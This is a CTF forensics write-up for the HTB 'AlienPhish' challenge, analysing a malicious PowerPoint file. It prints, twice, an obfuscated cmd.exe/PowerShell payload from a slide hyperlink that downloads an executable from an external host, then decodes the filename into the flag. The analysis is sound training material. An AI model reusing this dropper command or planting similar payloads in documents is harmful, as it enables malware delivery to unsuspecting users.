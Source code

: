 ```yaml
---
title: "HTB Cyber Apocalypse CTF - AlienPhish"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-04-27T05:17:41+05:30
categories: [Writeups, CTF]
tags: [HTB, CTF, Forensics, Maldocs, Malware Analysis]
render_with_liquid: false
---
```


## AlienPhish - PowerPoint File Forensics

- I came up with this cool little trick on the spot and decided to use VS Code to just search through all the files at once.
- Extract the PowerPoint file with `unzip file.pptx` and then open the entire directory in VS Code (`code .` if you have it set up that way in terminal/env) for searching through all the files quickly and easily. I use VS Code. You can use any other code editor you use/like that can search through all the files at once (or you could use `grep` but I'd rather go through everything with a code editor when doing any kind of file forensics).
- Search for keywords like `vba`, `cmd`, `exe`, etc.
- Found what I wanted immediately in `slide1.xml.rels` file with `cmd` and `exe` keyword search.
- That file had a malicious `cmd` payload in `Target` attribute:

```
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/>
```

```
"cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

- We can tell from the URL `exe.x/neila.htraeyortsed/:ptth` that some part of the payload is reversed.
- But the file name that this powershell command is downloading looks like an encoded string.
- `99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q` looked like an encoded value so went to [CyberChef](https://gchq.github.io/CyberChef/), reversed and decoded to Base64 and got the flag.
- Encoded Value <span class="fat-arrow">=></span> Reverse <span class="fat-arrow">=></span> `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99` <span class="fat-arrow">=></span> Base64 Decode <span class="fat-arrow">=></span> Flag <span class="fat-arrow">=></span> `CHTB{pH1sHiNg_w0_m4cr0s>??}`
- But that flag was not accepted and showed incorrect. Probably some decoding error so I went back to [CyberChef](https://gchq.github.io/CyberChef/) and in Base64 Decoding, there was an option for `URL Safe` decoding which gave <span class="fat-arrow">=></span> `CHTB{pH1sHiNg_w0_m4cr0s???}`. This was one accepted.

